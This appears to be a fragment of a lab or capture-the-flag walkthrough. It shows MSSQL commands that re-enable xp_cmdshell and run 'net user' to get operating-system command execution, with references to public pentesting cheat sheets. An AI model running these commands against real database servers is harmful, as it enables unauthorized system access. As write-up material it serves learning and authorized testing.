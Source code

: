 Then I used the [previous link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) as well as this [cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) for `sql` commands. Generating command execution seems good:

```{linenos=false}
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

And we have command execution:
![shell](/img/tier2/shell.png)
